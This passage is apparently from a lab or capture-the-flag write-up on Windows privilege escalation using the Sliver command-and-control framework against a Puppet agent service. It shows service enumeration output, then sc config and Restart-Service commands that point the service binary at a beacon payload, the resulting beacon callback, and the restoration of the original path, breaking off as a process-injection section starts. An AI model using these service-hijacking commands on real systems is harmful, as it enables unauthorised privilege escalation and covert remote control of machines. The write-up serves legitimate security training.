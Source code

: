 With svc_puppet_win_t1, I had rights to modify and restart the Puppet service. This allowed replacing the service binary path with my beacon payload for stealthy privilege escalation:
```Bash
sliver (puppet-mtls) > sa-sc-enum

SERVICE_NAME: puppet
DISPLAY_NAME: Puppet Agent
        TYPE                           : 16 WIN32_OWN
        STATE                          : 4 RUNNING
        WIN32_EXIT_CODE                : 0
        SERVICE_EXIT_CODE              : 0
        CHECKPOINT                     : 0
        WAIT_HINT                      : 0
        PID                            : 1552
        FLAGS                          : 0
        TYPE                           : 10 WIN32_OWN
        START_TYPE                     : 2 AUTO_START
        ERROR_CONTROL                  : 1 NORMAL
        BINARY_PATH_NAME               : "C:\Program Files\Puppet Labs\Puppet\sys\ruby\bin\ruby.exe" -rubygems "C:\Program Files\Puppet Labs\Puppet\service\daemon.rb"
        LOAD_ORDER_GROUP               : 
        TAG                            : 0
        DISPLAY_NAME                   : Puppet Agent
        DEPENDENCIES                   : 
        SERVICE_START_NAME             : svc_puppet_win_t1@puppet.vl
        RESET_PERIOD (in seconds)      : 0
        REBOOT_MESSAGE                 : 
        COMMAND_LINE                   : 
        FAILURE_ACTIONS                : RESTART -- Delay = 60000 milliseconds
        FAILURE_ACTIONS                : RESTART -- Delay = 60000 milliseconds
        FAILURE_ACTIONS                : RESTART -- Delay = 60000 milliseconds
The service has not registered for any start or stop triggers.
```
## Manual Method
XCT wrote how to perform this manually using sliver.
```Bash
# obtaining the service path
sa-reg-query file01 2 System\\CurrentControlSet\\Services\\puppet ImagePath

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\puppet
	ImagePath              REG_EXPAND_SZ   "C:\Program Files\Puppet Labs\Puppet\sys\ruby\bin\ruby.exe" -rubygems "C:\Program Files\Puppet Labs\Puppet\service\daemon.rb"

# changing the service path
execute -o -s -- c:\\windows\\system32\\cmd.exe /c sc config puppet binPath=c:\\programdata\\puppet\\puppet-update.exe
execute -o -s -- c:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -c "Restart-Service -Name puppet"

...
[*] Beacon 55fa6e2a puppet-mtls - 10.10.144.230:52071 (File01) - windows/amd64 - Thu, 17 Oct 2024 15:23:40 CEST

# restoring the service path
execute -o -s -- c:\\windows\\system32\\cmd.exe /c sc config puppet binPath="\"C:\\Program Files\\Puppet Labs\\Puppet\\sys\\ruby\\bin\\ruby.exe\" -rubygems \"C:\\Program Files\\Puppet Labs\\Puppet\\service\\daemon.rb\""
execute -o -s -- c:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -c "Restart-Service -Name puppet"
```
## Process Injection
An alternative was to identify a process owned by svc_puppet_win_t1 and inject shellcode: